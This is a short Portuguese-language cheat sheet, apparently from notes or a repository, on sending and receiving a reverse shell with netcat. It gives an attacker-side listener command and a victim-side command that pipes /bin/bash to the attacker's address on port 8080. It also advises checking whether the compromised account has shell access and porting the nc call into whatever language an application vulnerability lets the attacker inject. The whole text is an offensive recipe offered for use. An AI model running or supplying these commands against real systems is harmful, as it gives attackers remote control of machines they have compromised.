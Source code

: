 ===RRECEBER SHEL REVERSO===
Enviar/Receber Shell reverso:

ATACANTE-No lado servidor, ou seja, o lado que receberá o shell
reverso da vítima:
$ nc -lvnp 8080

VITIMA-No lado do cliente, ou seja o lado que enviará o arquivo,
execute:
$ nc -e /bin/bash -vn 192.168.56.1 8080
OBS: é importante verificar se o usuário q vc ganhou possui acesso a shell, e caso seja uma 
vulnerabilidade de aplicação, ver qual a linguagem será ejetada e codificar 
o "nc" nessa linguagem.
